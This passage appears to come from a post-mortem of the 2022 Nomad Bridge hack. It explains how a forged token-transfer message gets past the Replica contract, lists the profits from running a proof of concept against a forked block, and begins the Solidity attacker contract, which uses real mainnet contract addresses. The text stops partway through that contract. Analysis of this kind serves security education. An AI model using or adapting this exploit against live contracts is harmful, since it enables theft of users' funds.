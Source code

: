 ```
   }
}
```

<div align=center>


Snippet 4: Generate the malicious message with the right format and parameters, view [raw](https://gist.github.com/gists-immunefi/2a5fbe2e6034dd30534bdd4433b52a29#file-nomad-hack-analysis-4-sol).

</div>

The generated message needs to be encoded with various different parameters, so that it gets properly unpacked by the protocol. Importantly, we need to specify the forwarding path of the message — the bridge router and the ERC-20 bridge addresses. We must flag the message as a token transfer, hence the `0x3` value as the type.

Finally, we have to specify the parameters that will bring the profit to us–the right token address, the amount to be transferred, and the recipient of that transfer. As we’ve seen already, this will surely create a brand new original message that will never have been processed by the `Replica` contract, which means that it will actually be seen as valid, according to our previous explanation.

Quite impressively, this completes the entire exploit logic. If we had some Foundry logs, our PoC still amounts to only 87 lines of code.

If we run this PoC against the forked block number, we will get the following profits:

* 1,028 WBTC
* 22,876 WETH
* 87,459,362 USDC
* 8,625,217 USDT
* 4,533,633 DAI
* 119,088 FXS
  113,403,733 CQT

## Conclusion

The Nomad Bridge exploit was one of the biggest hacks of 2022. The attack stresses the importance of security throughout the entire protocol. In this particular case, we’ve learned how a single routine upgrade on a proxy implementation can cause a critical vulnerability and compromise all locked funds. Furthermore, during development one needs to be careful regarding the 0x00 default values on storage slots, specially in logic involving mappings. It’s also good to have some unit testing setup for such common values that might lead to vulnerabilities.

It should be noted that some scavenger accounts that drained portions of the funds returned them to the protocol. There are [plans to relaunch the bridge](https://medium.com/nomad-xyz-blog/nomad-bridge-relaunch-guide-3a4ef6624f90), and the returned assets will be distributed to users through pro-rata shares of those recovered funds. Any stolen funds can be returned to Nomad’s [recovery wallet](https://etherscan.io/address/0x94a84433101a10aeda762968f6995c574d1bf154).

As previously pointed out, this PoC actually enhances the hack and drains all TVL in one transaction. It is a simpler attack than what actually took place in reality. This is what our entire PoC looks like, with the addition of some helpful Foundry logs:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
import "forge-std/console.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
```